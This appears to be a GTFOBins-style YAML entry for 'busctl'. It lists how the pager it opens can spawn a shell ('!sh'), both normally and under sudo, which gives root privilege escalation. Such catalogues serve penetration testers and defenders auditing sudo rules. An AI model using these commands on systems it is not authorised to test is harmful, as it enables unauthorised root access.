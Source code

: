 ```yaml
---
functions:
  shell:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        busctl --show-machine
        !sh
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo busctl --show-machine
        !sh
---
```


